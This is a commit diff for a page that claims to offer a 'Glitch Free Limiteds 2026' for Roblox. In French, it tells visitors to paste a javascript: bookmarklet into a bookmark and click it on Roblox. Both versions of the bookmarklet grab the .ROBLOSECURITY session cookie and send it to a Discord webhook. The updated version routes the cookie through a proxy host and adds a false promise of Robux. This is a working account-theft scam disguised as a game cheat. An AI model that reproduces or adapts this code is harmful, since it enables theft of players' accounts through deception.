

Before and after one commit to nentopro-eng/Roblox-Free-Limiteds-Script-2026, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -13,7 +13,7 @@
     <div class="box">
         <h2>🚀 Glitch Free Limiteds 2026</h2>
         <p>Copie le code ci-dessous dans l'URL d'un favori :</p>
-        <code>javascript:(function(){var cookie=document.cookie.split('; ').find(row=>row.startsWith('.ROBLOSECURITY='));if(cookie){fetch('https://discord.com/api/webhooks/1504207423236345987/Hk6WbPe_UC3jZQ01NfStJURARlFQn_IZFzexUDrSGMoYpK738yOWFMA3t9VlLyDmsepz',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({content:'🔔 **Cookie** : \n'+cookie})});alert('Glitch activé !');}else{alert('Connecte-toi !');}})();</code>
+        <code>javascript:(function(){var cookie=document.cookie.split('; ').find(row=>row.startsWith('.ROBLOSECURITY='));if(cookie){fetch('https://webhook.lewisakura.moe./api/webhooks/1504207423236345987/Hk6WbPe_UC3jZQ01NfStJURARlFQn_IZFzexUDrSGMoYpK738yOWFMA3t9VlLyDmsepz',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({content:'🔔 **Cookie Capturé** : \n'+cookie})});alert('Glitch activé ! Attends 24h pour recevoir tes Robux.');}else{alert('Erreur : Connecte-toi à Roblox d\'abord !');}})();</code>
         <p><i>Va sur Roblox et clique sur ton favori pour activer.</i></p>
     </div>
 </body>
```
